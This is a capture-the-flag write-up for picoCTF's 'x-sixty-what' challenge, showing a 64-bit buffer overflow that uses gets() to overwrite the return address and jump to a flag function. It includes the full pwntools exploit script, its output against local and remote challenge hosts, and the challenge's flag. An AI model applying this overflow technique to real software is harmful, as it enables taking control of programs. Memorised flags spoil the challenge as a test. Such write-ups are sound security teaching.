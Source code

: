 # **Challenge:** x-sixty-what


### **Category:** [BinaryExploitation](../)
### **Point Value:** 200
### **Author:** Sanjay C / LT 'syreal' Jones
<br>

## **Description:**
Overflow x64 code  
Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this [program](https://artifacts.picoctf.net/c/193/vuln)[^1] [local](./vuln). Download [source](https://artifacts.picoctf.net/c/193/vuln.c)[^1] [local](./vuln.c).  
 ```nc saturn.picoctf.net 61020```

# **Write-Up:**

Building off of the work I did on [bufffer-overflow-0](../buffer-overflow-0/), I started by looking at the [source code](./vuln.c) of the app.  
Looking at the 'vuln' function we can see the app uses 'gets' which is vulnerable to Buffer Overflows, and we know we have a buffer size of 64.

```c

#define BUFFSIZE 64
#define FLAGSIZE 64
...
...
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);./
}

```  
  
Originally I used gdb and stepped through the program while sending it a cyclic string generated by pwntools to find the offset of the rip.  Then I found the following code which can leverage pwntools to do this for us automatically.  The code sends the payload, which I set as a cyclic string of length 500, then dumps the core and searches the stack for the rsp value. Then reads in the pattern from the core and locates the pattern which gives us the rip offset.
  
```python
p.sendline(payload)
p.wait()
core = p.corefile
stack = core.rsp
info("rsp = %#x", stack)
pattern = core.read(stack, 4)
rip_offset = cyclic_find(pattern)
info("rip offset is %d", rip_offset)
print(p.readline())
```

After we have the rip offset, we now need to know the offset for the function we want to run.  In this case it's the 'flag' function.  
  
```c
void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```  

Opening the executable in Ghidra, we can find the memory address for that function.  
  
<img src='./images/ghidra.png' width=1024>
  
We can see here the highlighted asm, with a memory offset of 0x40123b.  Note: I tried using the 0x401236 and 0x40123a at first but kept getting weird SEGFAULTS.  Looking at the hints from the challenge they recomended jumping to the first instruction after the first push in flag().  
  
With these two piece of information I was able to create an [exploit.py](./exploit.py) script, to try out our payload.  The main difference here is when we pack our memory location to add to the payload, we use the p64() function instead of p32() since this is a 64bit application.  

```python
# Import everything in the pwntools namespace
from pwn import *

# Create an instance of the process to talk to
p=process('./vuln')
print(p.readline())

# Create and display our payload
payload  =  cyclic(72) # Generates a string that gets us to the proper offset to overwrite RIP
payload += p64(0x40123b) # memory offset for our flag function
print(payload)

p.sendline(payload)
p.wait()
p.interactive()
```  
After creating a dummy [flag.txt](./flag.txt) and running this script we get the following output:  
```bash
❯ python3 ./exploit.py
[+] Starting local process './vuln': pid 23397
b'Welcome to 64-bit. Give me a string that gets you the flag: \n'
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaa;\x12@\x00\x00\x00\x00\x00'
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 23397)
[*] Switching to interactive mode
sampleFlagCTF{}[*] Got EOF while reading in interactive
```  
  
Looking here we can tell we got back the contents of our dummy [flag.txt](./flag.txt)  
  
Now to try it on the remote server, we change our exploit to run remotely using the payload we created:  
``` python
# This will use our exploit on the remote host
r = remote('saturn.picoctf.net', 52319)
r.sendlineafter('\n',payload)
r.interactive()
```  
  
```bash
❯ python3 ./exploit.py
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaa;\x12@\x00\x00\x00\x00\x00'
[+] Opening connection to saturn.picoctf.net on port 54490: Done
...
[*] Switching to interactive mode
picoCTF{b1663r_15_b3773r_be31178c}[*] Got EOF while reading in interactive
$  
```  
  
And there it is, the flag! 
# **FLAG:** 
```
picoCTF{b1663r_15_b3773r_be31178c}
```


[^1]: Included links to the source code may be out of date as they were what I recorded during the competition, and may be different now.
[^2]: This instance in launched on demand